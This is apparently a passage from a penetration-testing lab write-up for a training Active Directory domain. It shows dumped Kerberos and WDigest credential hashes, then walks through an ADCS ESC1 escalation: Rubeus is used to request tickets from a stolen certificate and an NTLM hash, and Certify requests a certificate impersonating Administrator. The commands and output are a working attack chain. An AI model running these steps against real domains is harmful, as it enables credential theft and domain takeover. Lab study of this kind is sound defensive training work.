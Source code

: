 ```powershell
      aes256_hmac       (4096) : 0ab74eb8ff7bc902afacecf446f249a4757f550914331f32bacce14fd90988c5
      aes128_hmac       (4096) : c0787a6ca28e6aa19d4b9463267c4d2d
      des_cbc_md5       (4096) : 8c2a1fe0048686c4

* Primary:Kerberos *
    Default Salt : US.TECHCORP.LOCALdecda
    Credentials
      des_cbc_md5       : 8c2a1fe0048686c4

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  682c8f5d65c1a355e46488bf69a82288
    02  60ee66d71cf45bf6cc0558539ec13d51
    03  506042b10c360d588999eed024fba420

<snip>
```
# 13. Attacking ADCS - ESC1
- From the Enumeration phase we saw that PKI is set on the environment and ADCS is installed on `TECHCORP-DC` (Root DC).
- We also found a certificate that has the `ENROLLEE_SUPPLIES_SUBJECT` flag set, which means that we can use this template to request a certificate on behalf of any user we want. This Domain Escalation Method is described as **ESC1**.
- `us\pawadmin` has Enrollment Permissions on the vulnerable certificate template. Since we already have credentials and a certificate for that account, we can easily impersonate it and use it to request a certificate from the vulnerable template and elevate our privileges on the Domain.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:pawadmin /certificate:C:\Auditor\Loot\pawadmin.pfx /password:certpass /domain:us.techcorp.local /getcredentials /ptt

<snip>

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 36EA28BFA97A992B5E85BD22485E8D52
```
- Alternatively, we can use the stolen NTLM hash of the account to request a TGT for that account.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:pawadmin /rc4:36ea28bfa97a992b5e85bd22485e8d52 /domain:us.techcorp.local /ptt

<snip>
```
- We can now request a certificate from the vulnerable template, however, we will do it on behalf of a high-privileged user. We can either request a certificate for the DA.
```powershell
PS C:\Auditor> .\Certify.exe request /ca:techcorp-dc.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
```